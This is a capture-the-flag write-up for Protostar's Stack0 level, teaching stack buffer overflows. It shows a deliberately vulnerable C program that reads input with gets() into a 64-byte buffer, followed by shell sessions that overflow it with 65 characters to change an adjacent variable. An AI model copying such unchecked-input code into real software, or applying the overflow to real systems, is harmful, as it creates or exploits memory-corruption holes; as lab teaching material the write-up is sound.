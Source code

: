 #### Stack0

###### About

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at ``/opt/protostar/bin/stack0``

``stack0.c``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./stack0
aaaaaa
Try again?
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A'*63" | ./stack0
Try again?
user@protostar:/opt/protostar/bin$
user@protostar:/opt/protostar/bin$ python -c "print 'A'*64" | ./stack0
Try again?
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A'*65" | ./stack0
you have changed the 'modified' variable
user@protostar:/opt/protostar/bin$
```